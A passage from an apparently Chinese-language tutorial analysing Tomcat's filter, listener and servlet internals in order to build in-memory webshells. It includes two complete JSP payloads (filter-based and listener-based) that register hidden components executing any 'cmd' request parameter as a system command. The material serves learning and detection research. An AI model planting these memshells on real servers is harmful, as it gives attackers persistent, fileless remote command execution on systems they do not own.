[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134532-870f5648-8055-1.png)

接下来返回StandardWrapperValve.invoke方法，调用filterChain的doFilter方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134553-93cec210-8055-1.png)  
进入internalDoFilter方法  
获取filterChain中的第一个filter  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134858-0204ba82-8056-1.png)  
然后调用filter的doFilter方法

```plain
filter.doFilter(request, response, this);
```

进入该filter的doFilter方法就来到了我们写的函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134926-1273d98e-8056-1.png)  
**总结**

*   根据请求的 URL 从 FilterMaps 中找出与之 URL 对应的 Filter 名称
*   根据 Filter 名称去 FilterConfigs 中寻找对应名称的 FilterConfig
*   找到对应的 FilterConfig 之后添加到 FilterChain中，并且返回 FilterChain
*   filterChain 中调用 internalDoFilter 遍历获取 chain 中的FilterConfig，然后从 FilterConfig 中获取 Filter，然后调用 Filter 的 doFilter 方法

**关键**  
这里面存在关键的三个变量：filterMaps、filterConfigs、filterDefs, 它们都从StandardContext中获取  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134946-1ee929e4-8056-1.png)  
**filterMaps**  
在StandardContext中添加filterMap的方法

```plain
@Override
public void addFilterMap(FilterMap filterMap) {
    validateFilterMap(filterMap);
    // Add this filter mapping to our registered set
    filterMaps.add(filterMap);
    fireContainerEvent("addFilterMap", filterMap);
}
```

```plain
@Override
public void addFilterMapBefore(FilterMap filterMap) {
    validateFilterMap(filterMap);
    // Add this filter mapping to our registered set
    filterMaps.addBefore(filterMap);
    fireContainerEvent("addFilterMap", filterMap);
}
```

**filterConfigs**  
在StandardContext中添加filterConfig的方法

```plain
public boolean filterStart() {

    if (getLogger().isDebugEnabled()) {
        getLogger().debug("Starting filters");
    }
    // Instantiate and record a FilterConfig for each defined filter
    boolean ok = true;
    synchronized (filterConfigs) {
        filterConfigs.clear();
        for (Entry<String, FilterDef> entry : filterDefs.entrySet()) {
            String name = entry.getKey();
            if (getLogger().isDebugEnabled()) {
                getLogger().debug(" Starting filter '" + name + "'");
            }
            try {
                ApplicationFilterConfig filterConfig = new ApplicationFilterConfig(this, entry.getValue());
                // 这里可以往filterConfigs中添加filterConfig
                filterConfigs.put(name, filterConfig);
            } catch (Throwable t) {
                t = ExceptionUtils.unwrapInvocationTargetException(t);
                ExceptionUtils.handleThrowable(t);
                getLogger().error(sm.getString("standardContext.filterStart", name), t);
                ok = false;
            }
        }
    }

    return ok;
}
```

这个方法在Tomcat启动时会运行，遍历filterDefs，然后根据filterDefs中的值创建filterConfig，然后将filterConfig添加到filterConfigs中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135009-2ca9320e-8056-1.png)  
**filterDefs**  
在StandardContext中添加filterDef的方法

```plain
@Override
public void addFilterDef(FilterDef filterDef) {

    synchronized (filterDefs) {
        filterDefs.put(filterDef.getFilterName(), filterDef);
    }
    fireContainerEvent("addFilterDef", filterDef);

}
```

而filterDefs是从配置文件中解析得来的

### 4.4 Filter内存马

filterMemshell.jsp:

```plain
<%--
Created by IntelliJ IDEA.
User: Dili
Date: 2023/9/18
Time: 16:30
To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%
try {
    // 获取应用程序上下文对象(ApplicationContextFacade)
    ServletContext servletContext = request.getSession().getServletContext();

    // 获取ApplicationContextFacade的context属性，即ApplicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    // 获取ApplicationContext的context属性，即StandardContext
    Field standContextField = applicationContext.getClass().getDeclaredField("context");
    standContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standContextField.get(applicationContext);

    // 获取StandardContext的filterConfigs属性，即filterConfigs
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);

    // 创建my filter 需要先判断是否已经存在同名的filter
    String myFiltername = "filtershell";
    if(filterConfigs.get(myFiltername) == null) {
        Filter myFilter = new Filter() {

            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                Filter.super.init(filterConfig);
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                // shell
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if(req.getParameter("cmd") != null) {
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd", "/C", req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes, 0, len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };

        // 创建filterDef对象
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(myFilter);
        filterDef.setFilterName(myFiltername);
        filterDef.setFilterClass(myFilter.getClass().getName());

        // 将filterDef添加至filterDefs
        standardContext.addFilterDef(filterDef);

        // 创建filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(myFiltername);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        // 将filterMap添加至filterMaps(第一位)
        standardContext.addFilterMapBefore(filterMap);

        // 创建ApplicationFilterConfig对象
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        filterConfigs.put(myFiltername, filterConfig);

    }
    System.out.println("Success!");
} catch (Exception e) {
    e.printStackTrace();
}
%>
```

访问[http://localhost:8090/Tomcat\_memshell\_Web\_exploded/filterMemshell.jsp](http://localhost:8090/Tomcat_memshell_Web_exploded/filterMemshell.jsp)  
执行完第一行得到ApplicationContextFacade对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135052-45e245da-8056-1.png)  
执行到最后  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135127-5b0aadbc-8056-1.png)  
成功将自定义的filter添加到filterConfigs、filterMaps、filterDefs中  
此时内存马成功写入，接下来就是访问相应的url生成filterChain，调用自定义的filter，触发命令执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135156-6c005f18-8056-1.png)

## 5\. Listener

### 5.1 简介

常用监听器：

*   ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
*   ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
*   ServletRequestListener：对 Request 请求进行监听（创建、销毁）
*   ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）
*   javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
*   javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听

这些类接口都是java.util.EventListener的子接口，以ServletRequestListener为例，它的接口定义如下：

```plain
public interface ServletRequestListener extends EventListener {

    /**
     * Receives notification that a ServletRequest is about to go out
     * of scope of the web application.
     *
     * @param sre the ServletRequestEvent containing the ServletRequest
     * and the ServletContext representing the web application
     */
    public void requestDestroyed(ServletRequestEvent sre);

    /**
     * Receives notification that a ServletRequest is about to come
     * into scope of the web application.
     *
     * @param sre the ServletRequestEvent containing the ServletRequest
     * and the ServletContext representing the web application
     */
    public void requestInitialized(ServletRequestEvent sre);
}
```

这个监听器用于监听ServletRequest的创建和销毁，当ServletRequest创建时，会调用requestInitialized方法，当ServletRequest销毁时，会调用requestDestroyed方法。

### 5.2 例子

创建HelloListener类，实现ServletContextListener接口，重写contextInitialized方法和contextDestroyed方法

```plain
package org.example.listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class HelloListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("invoke ServletRequestListener requestDestroyed!");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("invoke ServletRequestListener requestInitialized!");
    }
}
```

修改web.xml，添加listener配置

```plain
<listener>
    <listener-class>org.example.listener.HelloListener</listener-class>
</listener>
```

### 5.3 Listener流程分析

在自定义的requestInitialized处下断点  
函数调用栈如下：

```plain
requestInitialized:14, HelloListener (org.example.listener)
fireRequestInitEvent:5663, StandardContext (org.apache.catalina.core)
invoke:116, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:673, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:389, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:926, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

在StandardHostValve的invoke方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135222-7b7f9756-8056-1.png)  
进入StandardContext的fireRequestInitEvent方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135244-890b09fa-8056-1.png)  
在这个方法中调用listener的requestInitialized方法  
需要考虑两个问题，第一：instances怎么来的？第二：requestInitialized方法中的参数event怎么来的？  
第一个问题：在fireRequestInitEvent方法中，第一行就是获取instances，如下

```plain
Object instances[] = getApplicationEventListeners();
```

查看此函数

```plain
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

所以listener存放在applicationEventListenersList属性中，所以在StandardContext中找到能够向applicationEventListenersList添加listener的方法  
方法1：

```plain
/**
 * Add a listener to the end of the list of initialized application event listeners.
 *
 * @param listener The listener to add
 */
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

方法2：

```plain
/**
 * {@inheritDoc} Note that this implementation is not thread safe. If two threads call this method concurrently, the
 * result may be either set of listeners or a the union of both.
 */
@Override
public void setApplicationEventListeners(Object listeners[]) {
    applicationEventListenersList.clear();
    if (listeners != null && listeners.length > 0) {
        applicationEventListenersList.addAll(Arrays.asList(listeners));
    }
}
```

第二个问题：event如何构造？在fireRequestInitEvent方法中由如下代码构造

```plain
ServletRequestEvent event = new ServletRequestEvent(getServletContext(), request);
```

### 5.4 Listener内存马

listenMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 14:41
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%!
    public class MyListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    Field requestFiled = req.getClass().getDeclaredField("request");
                    requestFiled.setAccessible(true);
                    Request request = (Request) requestFiled.get(req);
                    request.getResponse().getWriter().write(out);
                } catch (Exception e) {}
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

        }
    }
%>

<%
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listener = new MyListener();
    context.addApplicationEventListener(listener);
%>
```

先访问listenMemshell.jsp生成内存马，然后访问任意路径，加上cmd参数即可命令执行

## 6\. Servlet

### 6.1 例子

创建HelloServlet类

```plain
package org.example.servlet;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(value = "/hello", name = "hello")
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doGet(req, resp);
        System.out.println("doget");
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
        System.out.println("dopost");
    }
}
```

web.xml中添加配置

```plain
<servlet>
    <servlet-name>hello</servlet-name>
    <servlet-class>org.example.servlet.HelloServlet</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>hello</servlet-name>
    <url-pattern>/hello</url-pattern>
</servlet-mapping>
```

在doGet方法下断点，调试  
函数调用栈：

```plain
doGet:15, HelloServlet (org.example.servlet)
service:502, HttpServlet (javax.servlet.http)
service:596, HttpServlet (javax.servlet.http)
internalDoFilter:209, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:178, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
doFilter:17, HelloFilter (org.example.filter)
internalDoFilter:178, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
invoke:167, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:492, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:673, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:389, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:926, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

### 6.2 分析

在StandardContext中，与servlet相关的有这两个属性：  
children：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135323-9ff54676-8056-1.png)  
servletMappings:  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111135340-a9e9d656-8056-1.png)

查看实现类ApplicationContext中的addServlet方法

```plain
private ServletRegistration.Dynamic addServlet(String servletName, String servletClass, Servlet servlet,
        Map<String, String> initParams) throws IllegalStateException {
    // servlet不能为空
    if (servletName == null || servletName.equals("")) {
        throw new IllegalArgumentException(sm.getString("applicationContext.invalidServletName", servletName));
    }

    // TODO Spec breaking enhancement to ignore this restriction
    checkState("applicationContext.addServlet.ise");
    // 根据name在context的children中获取对应的Wrapper
    Wrapper wrapper = (Wrapper) context.findChild(servletName);

    // Assume a 'complete' ServletRegistration is one that has a class and
    // a name
    // 如果不存在对应的Wrapper，就创建一个
    if (wrapper == null) {
        wrapper = context.createWrapper();
        wrapper.setName(servletName);
        context.addChild(wrapper);
    } else {
        if (wrapper.getName() != null && wrapper.getServletClass() != null) {
            if (wrapper.isOverridable()) {
                wrapper.setOverridable(false);
            } else {
                return null;
            }
        }
    }

    ServletSecurity annotation = null;
    if (servlet == null) {
        // 设置servletClass
        wrapper.setServletClass(servletClass);
        Class<?> clazz = Introspection.loadClass(context, servletClass);
        if (clazz != null) {
            annotation = clazz.getAnnotation(ServletSecurity.class);
        }
    } else {
        // 设置servletClass
        wrapper.setServletClass(servlet.getClass().getName());
        wrapper.setServlet(servlet);
        if (context.wasCreatedDynamicServlet(servlet)) {
            annotation = servlet.getClass().getAnnotation(ServletSecurity.class);
        }
    }

    if (initParams != null) {
        for (Map.Entry<String, String> initParam : initParams.entrySet()) {
            wrapper.addInitParameter(initParam.getKey(), initParam.getValue());
        }
    }

    //创建AoolicationServletRegistration对象并返回
    ServletRegistration.Dynamic registration = new ApplicationServletRegistration(wrapper, context);
    if (annotation != null) {
